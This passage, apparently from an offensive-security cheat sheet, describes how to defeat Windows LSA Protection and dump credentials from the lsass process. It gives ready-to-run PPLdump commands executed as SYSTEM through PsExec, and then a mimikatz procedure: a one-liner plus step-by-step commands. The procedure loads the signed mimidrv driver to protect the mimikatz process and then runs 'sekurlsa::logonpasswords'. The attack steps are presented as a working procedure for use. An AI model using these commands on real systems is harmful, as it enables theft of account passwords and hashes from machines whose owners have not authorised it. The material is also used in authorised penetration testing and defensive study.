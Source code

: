 Note that `PPLdump` must be executed as `NT AUTHORITY\SYSTEM`, which can be
achieved using, for example, the `PsExec` utility.

```
PPLdump.exe -v -f <lsass | LSASS_PID> <OUTPUT_DUMP>

# Using the PsExec utility to execute PPLdump as "NT AUTHORITY\SYSTEM" (as required by the DefineDosDevice technique).
PsExec.exe -accepteula -s cmd /c "<PPLDUMP_FULL_PATH> -v -f <lsass | LSASS_PID> <DUMP_OUTPUT_FULL_PATH>"
```

*Bypass through kernel-land code execution using a Windows driver.*

In order for a driver to be loaded (on systems with `Secure Boot` on), the
driver file must be digitally signed either:
  - for signature date prior to 29/07/2015, with a trusted cross-signed
    certificate, du to compatibility reasons for older drivers.
  - with a trusted `Extended Validation Code Signing Certificate`
    certificate (from partners enrolled and authorized for Kernel Mode Code
    Signing) and `Windows Hardware Quality Labs (WHQL)` certified.

If there no antivirus solution installed on the targeted system, or if the
solution deployed can be disabled, `mimikatz`'s `mimidrv` driver, digitally
signed in 2013, can be used to disable the `LSA Protection` mechanism. The
driver can be loaded as a kernel driver through `mimikatz`, which will result
in the creation of the driver `mimidrv` service (service type:
`SERVICE_KERNEL_DRIVER`). The loaded driver may then be used to protect the
`mimikatz` process, with a protection `Type` set to `PsProtectedTypeMax` and a
`Signer` level of `PsProtectedSignerWinTcb`, in order to "dominate" the
`lsass` process and be able to dump its memory.

Note that the driver file `mimidrv.sys` must be present in the same directory
as the `mimikatz.exe` being executed.

```
# One-liner: mimikatz.exe "token::elevate" "privilege::debug" "!+" "!processProtect /process:mimikatz.exe" "sekurlsa::logonpasswords" "exit"

# If necessary.
mimikatz # token::elevate
mimikatz # privilege::debug

# Loads the mimidrv driver and protect the mimikatz process.
mimikatz # !+
mimikatz # !processProtect /process:mimikatz.exe

# Futher mimikatz commands.
mimikatz # sekurlsa::logonpasswords
[...]

# Stop the driver and removes the mimidrv service
mimikatz # !-
```
